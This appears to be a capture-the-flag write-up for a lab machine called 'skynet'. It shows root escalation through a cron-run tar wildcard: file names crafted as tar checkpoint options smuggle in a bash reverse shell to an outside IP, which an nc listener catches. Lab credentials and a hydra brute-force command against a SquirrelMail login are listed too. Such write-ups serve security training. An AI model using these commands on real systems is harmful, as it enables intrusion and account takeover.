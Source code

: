 	www-data@skynet:/home/milesdyson$ ls -la backups
		-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
		-rw-r--r-- 1 root       root       4679680 Sep  4 18:46 backup.tgz

	www-data@skynet:/home/milesdyson/backups$ cd backups
	www-data@skynet:/home/milesdyson/backups$ cat backup.sh
		#!/bin/bash
		cd /var/www/html
		tar cf /home/milesdyson/backups/backup.tgz *
		
> executed as root every 1 minute

> compressing the content of /var/www/html using tar and saving to milesdyson home


Looking on GTFOBins for tar privesc

> tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh'

	www-data@skynet:/home/milesdyson/backups$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.192.149/9000 0>&1' > /var/www/html/shell
	www-data@skynet:/home/milesdyson/backups$ chmod +x /var/www/html/shell
	www-data@skynet:/home/milesdyson/backups$ touch /var/www/html/--checkpoint=1
	www-data@skynet:/home/milesdyson/backups$ touch /var/www/html/--checkpoint-action=exec=bash\ shell

Starting listener on port 9000

	rlwrap nc -lvnp 9000

## Caught root session!

	root@skynet:/var/www/html# pwd;whoami;id
		/var/www/html
		root
		uid=0(root) gid=0(root) groups=0(root)
	root@skynet:/var/www/html# cd ~
	root@skynet:~# ls
		root.txt
	root@skynet:~# cat root.txt
	
*Flag Found*<details><summary>Spoiler</summary></details>

# Passwords

## SquirrelMail

milesdyson: cyborg007haloterminator

> hydra -l milesdyson -P Enum/anonymous_share/log1.txt $IP http-form-post '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.'

## Samba

milesdyson: )s{A&2Z=F^n_E.B`

> Found after logging in to their SquirrelMail account

